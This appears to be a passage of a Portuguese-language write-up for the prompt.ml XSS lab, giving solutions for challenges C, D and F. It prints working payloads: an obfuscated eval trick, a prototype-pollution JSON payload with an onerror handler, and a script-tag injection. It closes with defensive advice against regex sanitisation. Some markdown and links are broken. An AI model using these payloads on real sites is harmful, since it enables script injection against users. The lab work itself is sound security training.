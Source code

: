 [Ir para o desafio B](https://www.google.com/search?q=%23b-desafio)

### 🔹 C desafio

<center><img src='/Imagem do 🦆 DuckWare 🦆 DuckWare/Atividade_C✅.png'></center>

```
eval(630038579..toString(30))(1)
```

[Ir para o desafio C](https://www.google.com/search?q=%23c-desafio)

### 🔹 D desafio

<center><img src='/Imagem do 🦆 DuckWare 🦆 DuckWare/Atividade_D✅.png'></center>

```
{"source":"_-_invalid-URL_-_","__proto__":{"source":"$`onerror=prompt(1)>"}}
```

[Ir para o desafio D](https://www.google.com/search?q=%23d-desafio)

### 🔹 E desafio

**Resolução pendente.**

[Ir para o desafio E](https://www.google.com/search?q=%23e-desafio)

### 🔹 F desafio

<center><img src='/Imagem do 🦆 DuckWare 🦆 DuckWare/Atividade_F✅.png'></center>

Um truque que podemos usar aqui é usar comentários **HTML** `<script>prompt(1)</script>

```

[Ir para o desafio F](#f-desafio)
```
---

## ✅ Conclusão

O **prompt.ml** é um laboratório de **XSS** criativo. Cada nível reforça conceitos como:

* Limitações de **regex** e por que não são suficientes para segurança.
* Vetores via **atributos/eventos**, **comentários**, **entidades/Unicode**.
* Injeções em **contextos distintos** (**HTML**, atributos, **JSON**, `src`, forms).
* Truques de **prototype pollution** e **URI schemes**.

**Lição principal:** a sanitização por **regex** é frágil. Prefira:

* Inserir dados via **API do DOM** (`textContent`, `setAttribute`).
* **Escapar corretamente** (`& < > " ' /`).
* Aplicar **CSP** e validações por **whitelist** robustas.

> **Restante a completar:** payloads exemplares dos níveis **9** e **E** (dependem de variantes específicas do jogo/navegador).
```
